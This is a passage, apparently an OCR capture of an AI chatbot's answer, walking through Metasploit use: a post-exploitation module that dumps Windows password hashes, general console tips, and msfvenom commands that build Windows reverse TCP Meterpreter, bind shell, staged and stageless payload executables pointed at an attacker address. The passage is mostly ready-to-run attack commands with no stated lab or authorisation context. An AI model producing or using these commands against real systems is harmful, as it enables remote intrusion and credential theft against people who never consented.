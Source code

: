 4. **Post-Exploitation: Dump Password Hashes**
   ```bash
   use post/windows/gather/hashdump
   set SESSION 1
   run
   ```

---

### Additional Tips
- Use `help <command>` for more details on any command.
  ```bash
  help search
  ```
- To save progress or configurations:
  ```bash
  save
  ```
- Always update Metasploit to stay current:
  ```bash
  msfupdate
  ```

Let me know if you'd like further clarification or a deeper dive into any specific commands or workflows!

Here are more **examples for creating payloads** using `msfvenom`. These examples cover various platforms, formats, and use cases.

---

### **Windows Payloads**

#### 1. Reverse TCP Meterpreter Payload
Creates a reverse TCP Meterpreter payload for Windows:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > reverse_shell.exe
```

#### 2. Bind Shell Payload
Creates a bind shell payload that waits for connections on a specified port:
```bash
msfvenom -p windows/shell_bind_tcp LPORT=4444 -f exe > bind_shell.exe
```

#### 3. Staged vs. Stageless Meterpreter Payload
- **Staged** (smaller payload, requires communication with Metasploit):
  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > staged_meterpreter.exe
  ```
- **Stageless** (larger payload, standalone):
  ```bash
  msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > stageless_meterpreter.exe
  ```

---